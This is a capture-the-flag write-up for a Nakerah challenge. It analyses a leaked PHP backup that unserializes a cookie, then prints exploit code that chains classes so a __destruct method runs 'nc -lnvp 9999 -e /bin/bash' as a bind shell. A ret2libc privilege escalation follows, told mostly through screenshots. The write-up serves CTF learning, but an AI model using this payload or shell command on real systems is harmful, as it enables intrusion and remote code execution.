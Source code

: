 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting ctf from nakerah nakerha.com
our goal is to read root's flag file 
expolit will be devided into two missions first deserilization attack then ret2libc
so with all that being said; let's right jump in !!

first we have that static page 
[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
22 ssh we dont have any creds and it seems to be updated
25 smtp is filtered so we maybe come back to it later
80 http we already checked it
so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i got bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 so we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 so let's analyze it
 
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
here it creates an exCommand class and use a magic method __destruct then pass the value of command propert to system function
Destructor is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
here creating class Hello with some private properties and check function to verify if there's a cookie name  
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
another function printHello fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
at last here it create an var, assign it's value to our deserialized_cookie passing it to check and printHello functions

so to stay focus here it's deserilization attack and we need to pass our command to exCommand funcion which has that magic method
the problem here is that first with exCommand class we used   a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem is that we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
so we will create exCommand object identify command property with a value (our command) put it inside  Hello calss and selialize all that staff together
[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

code analysis:

class exCommand{
   public function __destruct(){
   system($this->command);
    }
}
here we just create the same exCommand class,

$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
create class hello with some properites (dummy one is interesring just continue ..!)
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of our exCommand object and finally serialize all that staff and here is our final serialized data
[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect
[logo]: img/9.png
![alt text](img/9.png "spawingin a shell")

and voila we get our shell fisrt missin completed successfully
in the root dir we got file 
[logo]: img/11.png
![alt text](img/11.png "static page")

NX which stand for non-executable so here we know it's BOF expolit with ret2libc
after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")
so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit
[logo]: img/14.png
![alt text](img/14.png "static page")

so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png
![alt text](img/15.png "static page")

to get things more easy let's check ASLR in the vectim machine

[logo]: img/16.png
![alt text](img/16.png "static page")

and happy news that will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png
![alt text](img/17.png "static page")

we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png
![alt text](img/18.png "static page")

to get the exact address of /bin/sh in the run time we add its address to starting of libc address

[logo]: img/19.png
![alt text](img/19.png "static page")

not our exploit is complete lets have a lock at it

[logo]: img/20.png
![alt text](img/20.png "static page")

now let's give it a try

[logo]: img/21.png
![alt text](img/21.png "static page")

and finally i want to say to Nakerah team “You're the best.”
 
